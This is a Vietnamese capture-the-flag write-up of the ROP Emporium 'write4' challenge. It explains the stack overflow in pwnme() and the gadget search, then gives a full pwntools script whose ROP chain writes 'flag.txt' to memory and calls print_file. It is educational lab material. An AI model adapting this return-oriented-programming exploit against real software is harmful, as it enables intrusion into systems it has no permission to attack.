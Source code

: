 # ROP_Emporium - write4

# 1. Tìm lỗi

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
write4: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=4cbaee0791e9daa7dcc909399291b57ffaf4ecbe, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
RUNPATH:  b'.'

```
Ta thấy chỉ có NX được bật, tức là ta không thể thực thi code nằm trên stack được. Tiếp theo, ta mở file bằng IDA PRO 64bit. Có thể thấy hàm khai thác là hàm **pwnme()**:

Hàm pwnme()

![pwnme.png](images/pwnme.png)

Có thể thấy ở đây ta không nhìn được cách hàm pwnme() hoạt động nên ta sẽ đọc mã assembly từ file binary:

![pwnme2.png](images/pwnme2.png)

Còn có hàm usefulFunction()

![usefulFunction.png](images/usefulFunction.png)

cũng như usefulGadgets()

![usefulGadgets.png](images/usefulGadgets.png)

# 2. Ý tưởng

Có thể thấy chức năng hàm usefulFunction() để in ra file nên ta sẽ lợi dụng BOF để sửa tham số **nonexistent** thành flag.txt để hàm này đọc flag file và in ra

# 3. Khai thác

Ta cũng sẽ tìm offset tới rip bằng gdb như sau:

![offset.png](images/offset.png)

Có thể thấy ở hàm usefulFunction() sẽ lấy tham số để đọc file bằng thanh ghi edi --> ta sẽ truyền tham số mới cho edi tại đây
![usefulFunction2.png](images/usefulFunction2.png)

Đối với usefulGadgets() có **mov    QWORD PTR [r14],r15** để đưa giá trị từ thanh ghi r15 vào giá trị tại địa chỉ thanh ghi r14 mà khi ta tra bảng gadget có **pop r14, r15, ret**

![pop_r14.png](images/pop_r14.png)

Mà trong file không có sẵn chuỗi "flag.txt"
--> Ta sẽ dùng usefulGadgets() để ghi chuỗi "flag.txt" vào 1 vị trí trống nào đó

Tìm 1 địa chỉ trống có quyền ghi:

![vmmap.png](images/vmmap.png)

ở đây trong khoảng [0x00601000 - 0x00602000] có quyền đọc và ghi

Tiếp đến kiếm đại 1 địa chỉ trống:

![strstr.png](images/strstr.png)

ở đây mình sẽ lấy **0x601140**


ROP_chain ta sẽ làm như sau:

- pop 2 thanh ghi r14 và r15 để ghi vào chúng
- đẩy vào r14 địa chỉ cần ghi vào
- đưa chuỗi "flag.txt" vào r15
- sử dụng usefulGadget() để đưa giá trị "flag.txt" vào địa chỉ cần ghi
- pop rdi ra để đưa địa chỉ chữa chuỗi "flag.txt" vào
- nhảy đến hàm print_file sau khi đã setup thanh ghi rdi

Full code:
```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./write4', checksec=False)

p = process("./write4")

#gdb.attach(p, gdbscript='''''')

ret = ROP(elf).find_gadget(["ret"])[0]
pop_rdi_ret = ROP(elf).find_gadget(["pop rdi", "ret"])[0]
pop_r14_r15 = ROP(elf).find_gadget(["pop r14", "pop r15", "ret"])[0]
vuln = elf.sym['usefulFunction']
gadget = elf.sym['usefulGadgets']

null_addr = 0x601140

payload = flat(
    cyclic(0x28),
    pop_r14_r15,
    null_addr,
    b"flag.txt",
    gadget,
    pop_rdi_ret,
    null_addr,
    vuln+9
    )
p.sendlineafter(b">",payload)
p.interactive()

```
# 4. Lấy flag

![flag.png](images/flag.png)


